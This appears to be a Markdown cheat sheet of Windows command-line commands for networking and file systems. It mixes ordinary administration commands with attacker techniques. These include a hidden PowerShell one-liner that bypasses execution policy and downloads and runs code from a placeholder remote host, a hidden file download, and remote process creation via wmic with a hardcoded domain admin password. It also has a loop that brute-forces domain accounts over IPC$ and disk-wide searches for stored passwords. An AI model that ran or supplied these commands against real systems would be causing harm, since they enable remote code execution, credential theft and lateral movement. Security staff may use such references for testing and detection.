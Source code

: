 
## Networking

|**Command**|**Description**|
|:----------|:--------------|
|ipconfig /all|Displays the full TCP/IP configuration for all adapters. |
|ipconfig /displaydns|Displays the contents of the DNS client resolver cache, which includes both entries preloaded from the local Hosts file and any recently obtained resource records for name queries resolved by the computer. The DNS Client service uses this information to resolve frequently queried names quickly, before querying its configured DNS servers.|
|netstat -ano|Displays active TCP connections and includes the process ID (PID) for each connection. |
|netstat -ano -p tcp|Show tcp connections.|
|netstat -ano -p udp|Show udp connections.|
|netstat -r|Displays the system's routing table.|
|route print|Displays the system's routing table.|
|net view|Displays a list of domains, computers, or resources that are being shared by the specified computer. |
|net view /domain:`DOMAINNAME`|Specifies the domain for which you want to view the available computers. If you omit DomainName, /domain displays all of the domains in the network.|
|net view \\\\`ComputerName`|Specifies the computer that contains the shared resources that you want to view.|
|wmic /node:DC1 /user:DOMAIN\domainadminsvc /password:domainadminsvc123 process call create "cmd /c vssadmin list shadows 2>&1 > c:\temp\output.txt"|Create a new process on remote server.|
|powershell.exe -w hidden -nop -ep bypass -c "IEX ((new-object net.webclient).downloadstring('http://ip:port/[file]'))"|Execute code from remote server.|
|powershell.exe -w hidden -nop -ep bypass -c "(new-object net.webclient).DownloadFile('http://ip:port/file', 'C:\Windows\temp\testfile')"|Download a file from remote server.|


## File Systems

|**Command**|**Description**|
|:----------|:--------------|
|type C:\Windows\system32\demo.txt|Show the contents of a file. |
|dir /a|Displays files with specified attributes.|
|dir /s|Searches sub-directories|
|dir /s "\*`match-text`\*"|Searches for the word entered in the `match-text` section in all sub-dirs of the current directory.|
|find /I `password` C:\Windows\System32\*.ini|Searches for a `password` string in a file or files.|
|tree /F C:\Windows\system32|Graphically displays the folder structure of a drive or path.|
|fsutil fsinfo drives|Lists the current drives on the system.|
|wmic volume|Local storage volume management.|
|wmic logicaldisk where drivetype=3 get name, freespace, systemname, filesystem, size, volumeserialnumber|Local storage device management.|
|net share|displays information about all of the resources that are shared on the local computer.|
|wmic share|Shared resource management.|
|net use \\\\`ip`\ipc$ `password` /user:`username`|Connects a computer to or disconnects a computer from a shared resource, or displays information about computer connections. |
|@FOR /F %n in (users.txt) DO @FOR /F %p in (pass.txt) DO @net use \\\\DomainController\IPC$ /user:<DomainName>\%n %p 1>NUL 2>&1 && @echo [*] %n:%p &&|Bruteforce Windows accounts|
|FOR /F %f in ('dir /b /s C:\') do find /I "password" %f|Search `password` in file or files from C:\|
